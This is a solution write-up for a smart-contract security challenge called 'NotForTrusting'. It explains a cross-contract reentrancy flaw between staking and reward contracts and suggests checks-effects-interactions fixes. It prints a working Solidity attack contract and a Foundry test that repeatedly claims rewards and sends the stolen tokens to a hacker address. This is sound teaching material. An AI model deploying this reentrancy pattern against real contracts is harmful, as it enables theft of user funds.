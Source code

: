 # NotForTrusting Solution

If your solution has to do with `Rewarder::setStaker()`'s access control:
```
require(tx.origin == admin, "you are not the admin");
```
Your answer is wrong. It was a red herring. Although that is a potential vulnerability, we can assume the admin of the protocol is responsible. Congrats on finding this bug, but there is a different solution to this challenge.


### The real solution
The actual vulnerability is a cross contract reentrancy attack. Nowadays, most developers are aware of simple reentrancy attacks. In this case, both smart contracts even have a reentrancy guard modifier on every state changing function.

Since the two smart contracts do not share the same state for the reentrancy guard modifier, they are not aware when the other contract is locked. To fix this issue, I recommend that protocols with multiple smart contracts should share the state of the reentrancy guard modifier by creating a separate smart contract that they both read and write to the state of the contract.

The basics of the rentrancey revolves around claiming twice, and taking advantage of an NFT's `safeTransforFrom()` function call to `onERC721Received()` in the receiving smart contract. We will go over the affected code in more depth later, but for now let's look into how we perform the exploit.

To exploit the vulnerability, we need a separate smart contract to perform the rentrancey. Let's take a look at my implementation of it:
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.22;

import "../mocks/NFT.sol";
import "../mocks/marqToken.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import { Staking, Rewarder } from "../src/6_NotForTrusting.sol";


contract Attack6 is IERC721Receiver {

    Staking staking;
    Rewarder rewarder;
    NFT nft;
    MarqToken token;
    bool attackMode;


    constructor(address _staking, address _rewarder, address _nft, address _token) {
        staking = Staking(_staking);
        rewarder = Rewarder(_rewarder);
        nft = NFT(_nft);
        token = MarqToken(_token);
    }

    function stake(uint256 _tokenId) external {
        nft.approve(address(staking), _tokenId);
        staking.stake(_tokenId, 100);
    }

    function unstake(uint256 _tokenId) external {
        staking.unstake(_tokenId, true);
    }

    function setAttackMode(bool _mode) external {
        attackMode = _mode;
    }

    function onERC721Received(address, address, uint256, bytes calldata) external returns (bytes4) {
        if(attackMode) {
            rewarder.claim();
        }
        return IERC721Receiver.onERC721Received.selector;
    }

    function pullOutWinnings(uint256 _tokenId) external {
        nft.transferFrom(address(this), msg.sender, _tokenId);
        token.transfer(msg.sender, token.balanceOf(address(this)));
    }

}
```
It's not too complex but here is a breakdown of what each function does.
- `stake`: Call `Staking` to stake the user's NFT.
- `unstake`: Call `Staking` to unstake the user's NFT
- `onERC721Received`: Necessary function to receive a NFT for a smart contract. If attack mode is set to true, it calls the claim function again.
- `setAttackMode`: Toggle's attack mode.
- `pullOutWinnings`: Sends the stolen funds to the hacker's address.

Now let's look at what I wrote in the test file:
```
function test_GetThisPassing_6() public {
    address hacker = address(0xBAD);
    
    Attack6 attack = new Attack6(address(staking), address(rewarder), address(nft), address(token));

    vm.startPrank(hacker);
    nft.transferFrom(address(hacker), address(attack), tokenId);
    attack.stake(tokenId);
    attack.setAttackMode(true);
    vm.roll(block.number + 100);
    attack.unstake(tokenId);
    attack.pullOutWinnings(tokenId);
    vm.stopPrank();

    assertGt(token.balanceOf(hacker), 1000 ether);
    assertEq(nft.ownerOf(tokenId), hacker);
}
```
Here are the steps to execute the attack:
1. Send the NFT to the attack contract.
2. Stake the NFT.
3. Set the attack contract in attack mode. Now when it receives the NFT it knows to claim again.
4. Move the block number.
5. Call unstake. This is when the reentrancy occurs.
6. Pull out the winnings.

Now let's go over why we were able to exploit a reentrancy attack. Although the `lock` modifier does not protect both smart contracts, this attack could have been avoided if the code handled state changes better.

Checks Effects Interactions (CEI) refers to a best practice programming pattern for smart contract development. In short, it refers to updating state variables before handing off the transaction flow to another smart contract. To read more on CEI [check this article out](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html).

Here is an example of the `Staking` contract's unstake function if it was written in best practice:
```
function unstake(uint256 _tokenId, bool claim) external guard {
    require(isStaking[msg.sender], "Stake first");
    StakeData memory userStake = stakeData[msg.sender];
    require(block.number >= userStake.stakeStart + userStake.stakeDuration, "patience is my least favorite virtue too");

    if(claim) {
        rewarder.claim(msg.sender);
    }

    // we update the state before transfering the NFT out of the protocol
    isStaking[msg.sender] = false;
    userStake = StakeData(0, 0, 0);

    nft.safeTransferFrom(address(this), msg.sender, _tokenId);
}
```

However, that was not the only issue with this code. `Rewarder`'s `function claim(address _for) external` has an error in it's require statements:
```
function claim(address _for) external guard {
    bool isStaking = staking.isStaking(_for);
    StakeData memory userStake = staking.getStakerData(msg.sender);
    require(msg.sender == address(staking), "not your rewards");
    require(block.number >= userStake.stakeStart + userStake.stakeDuration, "you know about vm.roll(), right?");
    // changed msg.sender to _for
    require(!hasClaimed[_for], "no double dipping");

    // changed msg.sender to _for
    hasClaimed[_for] = true;
    token.mint(1000 ether);
    token.transfer(_for, 1000 ether);
    
}
```

Because the original code is updating and checking `msg.sender` instead of `_for`, this actually blocks `Staking` from claiming again, regardless of the user.

Whenever you see a smart contract hand over flow to an external contract, you should meticulously check all possible interactions and possibilities of a reentrancy attack.

Bonus Points if you noticed that a user who has not manually claimed and does not set `claim` to true while unstaking will lose out on their rewards.
